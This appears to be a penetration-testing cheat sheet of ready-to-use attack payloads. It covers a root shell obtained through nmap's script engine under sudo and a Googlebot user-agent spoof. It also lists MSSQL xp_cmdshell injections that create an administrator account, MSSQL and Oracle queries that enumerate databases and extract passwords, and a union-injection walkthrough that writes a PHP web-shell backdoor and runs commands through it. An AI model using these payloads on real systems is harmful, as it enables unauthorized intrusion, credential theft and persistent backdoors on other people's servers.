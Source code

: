 ## If nmap --interactive isn't available, try this:
   1) TF=$(mktemp)
   2) echo 'os.execute("/bin/sh")' > $TF
   3) sudo nmap --script=$TF
   
## Robots.txt
If robots.txt says permission denided, go to burp suite and change user agent to: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)


## Sql Injections
### MSSQL:

* If RDP is available, try this first
```
';EXECUTE master..xp_cmdshell 'net user abc 123456 /ADD'--
';EXECUTE master..xp_cmdshell 'net localgroup Administrators abc /ADD'--
```
Description | Command
------------ | -------------
| Find datbaases | 				',convert(int,(SELECT DB_NAME(6))))-- |
| Find databases? | 			',convert(int,(select top(1) schema_name from information_schema.schemata WHERE NOT schema_name IN ('dbo','db_accessadmin'))))-- |
| Find table names | 		',convert(int,(select top(1) table_name from information_schema.tables)))-- |
| Find columns | 			',convert(int,(select top(1) column_name from information_schema.columns WHERE table_name='users' AND NOT column_name IN ('user_id'))))-- |
| List table in other db | 		',convert(int,(SELECT name FROM someotherdb..sysobjects WHERE xtype = 'U')))-- |
| List columns in other db | 	' + cast((SELECT top(1) name FROM archive..syscolumns WHERE name NOT IN ('alogin','id','psw')) as int) + ' |
| Read contents of a table | 	' + cast((SELECT top(1) alogin FROM archive..pmanager) as int) + 'test' OR 1=1-- 'UNION+ALL+SELECT+@@version,2-- |


### Oracle:
Description | Command
------------ | -------------
| List databases | 					' UNION ALL SELECT owner,'2',3 FROM all_tables -- |
| List tables in db | 				' UNION ALL SELECT table_name,'2',3 FROM all_tables WHERE owner='WEB_APP' -- |
| List columns in table | 			' UNION ALL SELECT column_name,'2',3 FROM all_tab_columns WHERE table_name='WEB_ADMINS' AND owner='WEB_APP' -- |
| Select column value in table | 	' UNION ALL SELECT PASSWORD,'2',3 FROM WEB_ADMINS -- |


### SQL Injection Enum
1. url.com/test?id='
2. url.com/test?id=1 order by 1, 1 order by 2, 1 order by 3, etc until an error is reached. The previous number is the number of columns available.
3. url.com/test?id=1 union all select 1,2,3 #has to be the same number of columns. use the column with most room for text to display @@version, user(), table_name from information_schema.tables, column_name from information_schema.column where table_name='users', etc
4. url.com/test?id=1 union all select 1, username, password from users 
5. url.com/test?id=1 union all select 1, 2, load_file('C:/Windows/System32 /drivers/etc/hosts') 
6. url.com/test?id=1 union all select 1, 2, "<?php echo shell_exec($_GET[' cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
7. url.com/backdoor.php?cmd=ipconfig
